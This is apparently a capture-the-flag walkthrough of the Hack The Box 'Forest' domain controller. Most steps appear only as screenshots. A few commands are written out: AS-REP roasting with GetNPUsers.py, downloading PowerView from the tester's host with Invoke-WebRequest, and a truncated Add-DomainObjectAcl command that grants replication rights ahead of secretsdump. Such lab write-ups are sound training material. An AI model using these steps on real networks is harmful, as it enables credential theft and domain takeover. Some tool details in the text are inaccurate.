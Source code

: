 https://app.hackthebox.com/machines/Forest

Enumeration

Nmap

![image](https://user-images.githubusercontent.com/93418272/184115004-2a77a52a-c6e4-4261-9aca-d69b88cccfea.png)


A Domain Controller for the htb.local is found

SMB

![image](https://user-images.githubusercontent.com/93418272/184115042-cfd61216-893c-49da-8e69-a2b84661fd05.png)

![image](https://user-images.githubusercontent.com/93418272/184115057-03ec63f0-d199-4999-bf53-0d5805027dab.png)

RPC

![image](https://user-images.githubusercontent.com/93418272/184115088-2a545055-c8e1-4018-beee-f93e08a531e9.png)

Found a service account

![image](https://user-images.githubusercontent.com/93418272/184115119-e1b4a3b4-a3e9-41cb-8b40-9c774fdf2b69.png)


Let's do a test for discovering a user that does not require a pre-Authentication

Create a user list with the found users.

![image](https://user-images.githubusercontent.com/93418272/184115138-76955b52-f11e-4ddd-87cb-b7e854ac215d.png)


Start up kerbrute  

![image](https://user-images.githubusercontent.com/93418272/184115153-4a119bc2-c50a-464f-803f-363ffa5d0c8f.png)


The user accounts that are enabled with no pre-Authentication, it’s vulnerable to AS-REP Roasting attack.

Use the Impackt GetNPUsers.py from here.

Run the python script to dump out the hash.

./GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161

![image](https://user-images.githubusercontent.com/93418272/184115194-71eab69b-cb24-475e-b070-d11b52e4558a.png)


Use John to crack the hash.

![image](https://user-images.githubusercontent.com/93418272/184115210-68334eb9-9d88-4f61-a59b-8e49aea17c8d.png)


Use evil-winrm to gain access.

![image](https://user-images.githubusercontent.com/93418272/184115228-4c587194-649b-45cf-b4de-245720a4f092.png)


First flag is found.

![image](https://user-images.githubusercontent.com/93418272/184115242-52defeb1-595d-4dd3-8458-a53d1c94e7a5.png)


Use the bloodhound python script to collect JSON data for the Bloodhound app

![image](https://user-images.githubusercontent.com/93418272/184115260-a8aa90e7-cf9f-4527-a739-b51f7f8a6b8f.png)


Load the data to Bloodhound and look at svs-alfresco data

The node belongs to the account operators group.

![image](https://user-images.githubusercontent.com/93418272/184115286-230b71e5-f656-4733-a6c2-48409cc4f877.png)


Account Operators group are allowed create and modify users and add them to non-protected groups.

Download the Powerspoilt dev module from github and start a python server to transfer the PowerView script to the windows box.

powershell Invoke-WebRequest -Uri http://10.10.14.23:80/PowerView.ps1 -OutFile PowerView.ps1

Input the following commands 

$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential ('HTB\persecure', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity persecure -

![image](https://user-images.githubusercontent.com/93418272/184115318-31d633cb-167d-4f65-bd0b-7301e3f018fa.png)


Use secretsdump.py to get the hashes.

![image](https://user-images.githubusercontent.com/93418272/184115342-2efe198f-bbce-48bd-85f3-cff1ec616b4c.png)


Crack the hash with crackmapexec

![image](https://user-images.githubusercontent.com/93418272/184115427-b5d4e3e9-7266-4ec8-9048-603f85a592b2.png)


Use psexec.py to gain a shell.

![image](https://user-images.githubusercontent.com/93418272/184115639-6aaaa68f-b62c-43e7-a288-8e7baa11d5a8.png)


Root flag is found.

![image](https://user-images.githubusercontent.com/93418272/184115486-25661ffc-825f-4a41-8f73-92ff9bb3024a.png)
